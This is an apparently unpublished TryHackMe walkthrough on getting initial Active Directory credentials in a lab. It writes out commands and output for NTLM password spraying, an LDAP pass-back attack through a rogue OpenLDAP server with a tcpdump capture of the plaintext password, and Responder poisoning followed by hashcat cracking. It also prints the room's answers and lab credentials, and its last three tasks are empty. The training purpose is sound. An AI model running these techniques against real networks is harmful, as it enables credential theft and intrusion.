

+++
tags = ["TryHackMe", "Windows", "Active Directory"]
title = "Breaching Active Directory - TryHackMe"
weight = 10
draft = true
images = [ "/walkthroughs/Breaching Active Directory/logo.png" ]
description = "This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD."
+++


Date written: February 2023      
Date published: 

## Task 1: Introduction to AD Breaches 

Suggested prerequisites:
- [Active Directory Basics](https://tryhackme.com/room/activedirectorybasics)

Learning Objectives:
In this network, we will cover several methods that can be used to breach AD. This is by no means a complete list as new methods and techniques are discovered every day. However, we will  cover the following techniques to recover AD credentials in this network:

- NTLM Authenticated Services
- LDAP Bind Credentials
- Authentication Relays
- Microsoft Deployment Toolkit
- Configuration Files

Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, you need initial access first. You need to acquire an initial set of valid AD credentials. Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant. In this room, we will discuss several avenues, but this is by no means an exhaustive list.

When looking for that first set of credentials, we don't focus on the permissions associated with the account; thus, even a low-privileged account would be sufficient. We are just looking for a way to authenticate to AD, allowing us to do further enumeration on AD itself.


The first thing we have to do is connect to either AttackBox or OpenVPN. There are a few additional steps to connect to either option because Windows networks use DNS to resolve hostnames to IPs. 

If you are connecting via AttackBox you will need to run the below command. 

```systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com``` Remember to set $THMDCIP to the IP of THMDC in your network diagram.


If you are using your own machine with OpenVPN there is a specific VPN profile that you will need to download from [THM](https://tryhackme.com/r/access). 


> I have completed the AD basics room and am ready to learn about AD breaching techniques.
>
> Answer: No answer needed.

>I have connected to the network and configured DNS.
>
> Answer: No answer needed.

## Task 2: OSINT and Phishing 

OSINT is used to discover information that has been publicly disclosed. In terms of AD credentials, this can happen for several reasons, such as:

- Users who ask questions on public forums such as Stack Overflow but disclose sensitive information such as their credentials in the question.
- Developers that upload scripts to services such as Github with credentials hardcoded.
- Credentials being disclosed in past breaches since employees used their work accounts to sign up for other external websites. Websites such as HaveIBeenPwned and DeHashed provide excellent platforms to determine if someone's information, such as work email, was ever involved in a publicly known data breach.

Learn more about OSINST in [this room](https://tryhackme.com/room/redteamrecon).

Phishing is another excellent method to breach AD. Phishing usually entices users to either provide their credentials on a malicious web page or ask them to run a specific application that would install a Remote Access Trojan (RAT) in the background. This is a prevalent method since the RAT would execute in the user's context, immediately allowing you to impersonate that user's AD account. This is why phishing is such a big topic for both Red and Blue teams.

Learn more about phishing in [this room](https://tryhackme.com/module/phishing.)

>I understand OSINT and how it can be used to breach AD
>
>Answer: No answer needed. 

>I understand Phishing and how it can be used to breach AD
>
>Answer: No answer needed. 

>What popular website can be used to verify if your email address or password has ever been exposed in a publicly disclosed data breach?
>
>haveibeenpwned

## Task3: NTLM Authenticated Services 

The first thing we want to do is download the task files which contain a password list and a python file titled "ntlm_passwordspray.py" or access them in AttackBox in the ```/root/Rooms/BreachingAD/task3/``` directory. Use ```cd /root/Rooms/BreachingAD/task3/``` to change directories and then ```ls``` to make sure we are in the correct place.

Once you have the files you need to add the correct variables into the python script as shown. ```python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>```

- <userfile> - Textfile containing our usernames - "usernames.txt"
- <fqdn> - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
- <password> - The password we want to use for our spraying attack - "Changeme123"
- <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

Then we can run the script to see the results. It's okay if it takes a few tries to type everything in correctly as you can see it took me a few times as well. 


And we have username and password combinations!

- Username: hollie.powell Password: Changeme123
- Username: heather.smith Password: Changeme123
- Username: gordon.stevens Password: Changeme123
- georgina.edwards Password: Changeme123

Now we can use these to log into http://ntlmauth.za.tryhackme.com.

Logging in with Hollie just yields a Hello World page. 


> What is the name of the challenge-response authentication mechanism that uses NTLM?
>
> Answer: NetNTLM

> What is the username of the third valid credential pair found by the password spraying script?
>
> Answer: gordon.stevens

> How many valid credentials pairs were found by the password spraying script?
>
> Answer: 4

> What is the message displayed by the web application when authenticating with a valid credential pair?
>
> Hello World


## Task 4:  LDAP Bind Credentials

First read a little about LDAP Pass-back Attacks and then navigate to http://printer.za.tryhackme.com/settings.aspx


After pressing F12 to inspect the source code (or control + U to open the code in a new page at view-source:http://printer.za.tryhackme.com/settings) we can also see that the password is hidden in the code as well. 


With this we know the username is **svcLDAP**, but not the password. When we press Test Settings at the bottom of the form there is a POST request that goes through and there is an IP we can specify. So maybe we can get the password that way.

If you are using AttackBoc you will need to stop the slapd service first using ```service slapd stop```. before continuing to the next step.

First we will want to set up a NetCat listener on the default LDAP port of 389 with ```nc -lvp 389```.

Next you will want to open a new terminal tab or window and use ```ifconfig``` to find your IP. If you are using AttackBox, this is not the IP that shows as your username in a terminal.

After that type the IP into the "Server" field of the printer settings and select test settings. Then in our NetCat terminal we do have a connection back, but it is not transmitting in cleartext. 


To get the credentials in cleartext ee will need to create a rogue LDAP server and configure it insecurely. We will be using OpenLDAP for this. 

If you are using your own machine you will need to install OpenLDAP with ```sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd```.

If you are using AttackBox you will need to configure OpenLDAP with ```sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd```

Now up to the set up!

When asked to skip server configuration select no.


Then type the DNS domain name and the Organization name as ```za.tryhackme.com```. It will prepopulate something, so make sure it's changed.


Next provide and confirm a password.


Select MDB as the database.


Select **No** when asked if you would like the database to be removed when slapd is purged and finally select **Yes** to move the old database files. 


Now we move onto making the server vulnerable by creating a new file called "olcSaslSecProps.ldif". You can do this by using the ```touch``` command or by simply opening a note pad file and saving it with the following content:

```dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred```


Next we will patch out server using the file we just created. 

```sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart```

Then we can check the configuration with:

```ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms```


Finally we're ready to dump our credentials in cleartext with ```sudo tcpdump -SX -i breachad tcp port 389```

After you run the above command select "Test Settings" on the printer settings page. This should dump the credentials. Below is the very large dump.

```root@ip-10-10-200-41:~# sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on breachad, link-type RAW (Raw IP), capture size 262144 bytes
22:43:29.012582 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [SEW], seq 1717344990, win 64240, options [mss 1289,nop,wscale 8,nop,nop,sackOK], length 0
	0x0000:  4502 0034 b6cc 4000 7f06 701b 0ac8 61c9  E..4..@...p...a.
	0x0010:  0a32 5e17 e29c 0185 665c 9ade 0000 0000  .2^.....f\......
	0x0020:  80c2 faf0 b9d3 0000 0204 0509 0103 0308  ................
	0x0030:  0101 0402                                ....
22:43:29.012632 IP ip-10-50-94-23.eu-west-1.compute.internal.ldap > ip-10-200-97-201.eu-west-1.compute.internal.58012: Flags [S.], seq 3773137090, ack 1717344991, win 64240, options [mss 1460,nop,nop,sackOK,nop,wscale 7], length 0
	0x0000:  4500 0034 0000 4000 4006 65ea 0a32 5e17  E..4..@.@.e..2^.
	0x0010:  0ac8 61c9 0185 e29c e0e5 80c2 665c 9adf  ..a.........f\..
	0x0020:  8012 faf0 5830 0000 0204 05b4 0101 0402  ....X0..........
	0x0030:  0103 0307                                ....
22:43:29.013485 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [.], ack 3773137091, win 8217, length 0
	0x0000:  4500 0028 b6cd 4000 7f06 7028 0ac8 61c9  E..(..@...p(..a.
	0x0010:  0a32 5e17 e29c 0185 665c 9adf e0e5 80c3  .2^.....f\......
	0x0020:  5010 2019 73da 0000                      P...s...
22:43:29.013811 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [P.], seq 1717344991:1717345065, ack 3773137091, win 8217, length 74
	0x0000:  4500 0072 b6ce 4000 7f06 6fdd 0ac8 61c9  E..r..@...o...a.
	0x0010:  0a32 5e17 e29c 0185 665c 9adf e0e5 80c3  .2^.....f\......
	0x0020:  5018 2019 294d 0000 3084 0000 0044 0201  P...)M..0....D..
	0x0030:  0a63 8400 0000 3b04 000a 0100 0a01 0002  .c....;.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1704 1573 7570  class0.......sup
	0x0060:  706f 7274 6564 4361 7061 6269 6c69 7469  portedCapabiliti
	0x0070:  6573                                     es
22:43:29.013846 IP ip-10-50-94-23.eu-west-1.compute.internal.ldap > ip-10-200-97-201.eu-west-1.compute.internal.58012: Flags [.], ack 1717345065, win 502, length 0
	0x0000:  4500 0028 80fd 4000 4006 e4f8 0a32 5e17  E..(..@.@....2^.
	0x0010:  0ac8 61c9 0185 e29c e0e5 80c3 665c 9b29  ..a.........f\.)
	0x0020:  5010 01f6 91b3 0000                      P.......
22:43:29.014014 IP ip-10-50-94-23.eu-west-1.compute.internal.ldap > ip-10-200-97-201.eu-west-1.compute.internal.58012: Flags [P.], seq 3773137091:3773137102, ack 1717345065, win 502, length 11
	0x0000:  4500 0033 80fe 4000 4006 e4ec 0a32 5e17  E..3..@.@....2^.
	0x0010:  0ac8 61c9 0185 e29c e0e5 80c3 665c 9b29  ..a.........f\.)
	0x0020:  5018 01f6 50fe 0000 3009 0201 0a64 0404  P...P...0....d..
	0x0030:  0030 00                                  .0.
22:43:29.014055 IP ip-10-50-94-23.eu-west-1.compute.internal.ldap > ip-10-200-97-201.eu-west-1.compute.internal.58012: Flags [P.], seq 3773137102:3773137116, ack 1717345065, win 502, length 14
	0x0000:  4500 0036 80ff 4000 4006 e4e8 0a32 5e17  E..6..@.@....2^.
	0x0010:  0ac8 61c9 0185 e29c e0e5 80ce 665c 9b29  ..a.........f\.)
	0x0020:  5018 01f6 4516 0000 300c 0201 0a65 070a  P...E...0....e..
	0x0030:  0100 0400 0400                           ......
22:43:29.020323 IP ip-10-200-97-201.eu-west-1.compute.internal.58013 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [.], ack 40413450, win 8217, length 0
	0x0000:  4500 0028 b6d6 4000 7f06 701f 0ac8 61c9  E..(..@...p...a.
	0x0010:  0a32 5e17 e29d 0185 336b 81cf 0268 a90a  .2^.....3k...h..
	0x0020:  5010 2019 7611 0000                      P...v...
22:43:29.020538 IP ip-10-200-97-201.eu-west-1.compute.internal.58013 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [P.], seq 862683599:862683664, ack 40413450, win 8217, length 65
	0x0000:  4500 0069 b6d7 4000 7f06 6fdd 0ac8 61c9  E..i..@...o...a.
	0x0010:  0a32 5e17 e29d 0185 336b 81cf 0268 a90a  .2^.....3k...h..
	0x0020:  5018 2019 9d2b 0000 3084 0000 003b 0201  P....+..0....;..
	0x0030:  0e60 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..tryhackmel
	0x0060:  6461 7070 6173 7331 40                   dappass1@
22:43:29.020565 IP ip-10-50-94-23.eu-west-1.compute.internal.ldap > ip-10-200-97-201.eu-west-1.compute.internal.58013: Flags [.], ack 862683664, win 502, length 0
	0x0000:  4500 0028 7deb 4000 4006 e80a 0a32 5e17  E..(}.@.@....2^.
	0x0010:  0ac8 61c9 0185 e29d 0268 a90a 336b 8210  ..a......h..3k..
	0x0020:  5010 01f6 93f3 0000                      P.......
22:43:29.031692 IP ip-10-200-97-201.eu-west-1.compute.internal.58012 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [.], ack 3773137233, win 8216, length 0
	0x0000:  4500 0028 b6da 4000 7f06 701b 0ac8 61c9  E..(..@...p...a.
	0x0010:  0a32 5e17 e29c 0185 665c 9c01 e0e5 8151  .2^.....f\.....Q
	0x0020:  5010 2018 722b 0000                      P...r+..
22:43:29.031725 IP ip-10-200-97-201.eu-west-1.compute.internal.58013 > ip-10-50-94-23.eu-west-1.compute.internal.ldap: Flags [.], ack 40413474, win 8217, length 0
	0x0000:  4500 0028 b6db 4000 7f06 701a 0ac8 61c9  E..(..@...p...a.
	0x0010:  0a32 5e17 e29d 0185 336b 8210 0268 a922  .2^.....3k...h."
	0x0020:  5010 2019 75b8 0000                      P...u...

```


> What type of attack can be performed against LDAP Authentication systems not commonly found against Windows Authentication systems?
>
> Answer: LDAP Pass-back Attacks

> What two authentication mechanisms do we allow on our rogue LDAP server to downgrade the authentication and make it clear text?
>
> Answer: login,plain

> What is the password associated with the svcLDAP account?
>
> Answer: tryhackmeldappass1@

## Task 5: Authentication Relays

First read a little about authentication relays and then start reposnder on your machine with ```sudo responder -I breachad```. Leave this running for about 10 minutes. It's a good time for a coffee break! 



<iframe src="https://giphy.com/embed/vgzA1vS0cP7rW4oFtJ" width="480" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/theoriginaldonutshopcoffee-fun-yes-vgzA1vS0cP7rW4oFtJ">via GIPHY</a></p>



Okay now that you're back, if we look at Responder we should see a username and it's hash.



Now that we have a hash we can user HashCat to crack the hash.

[FreeCodeCamp](https://www.freecodecamp.org/news/hacking-with-hashcat-a-practical-guide/) has a more indepth tutorial on cracking hashes with  HashCat. 

The basic format for hash cat is ```hashcat -m 5600 <hash file> <password file> --force```.

Breakdown:
- -m 5600 is specifying that the hash is NetNTLMv2 hash. You can find all the hash type code [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
- --force will just force will ignore all warnings and keep trying to crack the hash. You can find all flags and their explanations [here.](https://hashcat.net/wiki/doku.php?id=hashcat) 

```hashcat -m 5600 hash.txt /root/Rooms/BreachingAD/task5/passwordlist.txt --force```


After running for a few minutes we have our password!


> What is the name of the tool we can use to poison and capture authentication requests on the network?
>
> Answer: Responder

> What is the username associated with the challenge that was captured?
>
> Answer: svcFileCopy

> What is the value of the cracked password associated with the challenge that was captured?
>
> Answer: Password1!

## Task 6: Microsoft Deployment Toolkit


## Task 7: Configuration Files


## Task 8: Conclusion 

